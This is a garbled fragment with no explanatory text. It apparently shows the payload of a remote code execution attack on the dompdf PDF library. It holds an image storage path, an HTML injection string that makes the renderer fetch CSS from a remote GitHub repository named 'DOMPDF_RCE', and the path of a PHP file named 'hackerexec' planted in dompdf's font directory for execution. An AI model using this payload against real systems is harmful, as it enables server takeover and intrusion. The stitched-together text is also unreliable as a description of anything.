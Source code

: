 "><link rel="https://raw.githubusercontent.com/Raptiler/DOMPDF_RCE/main/1/e.css">

/dompdf/lib/fonts/hackerexec_normal_8785e19e4845860c275b65beeb4648fd.php
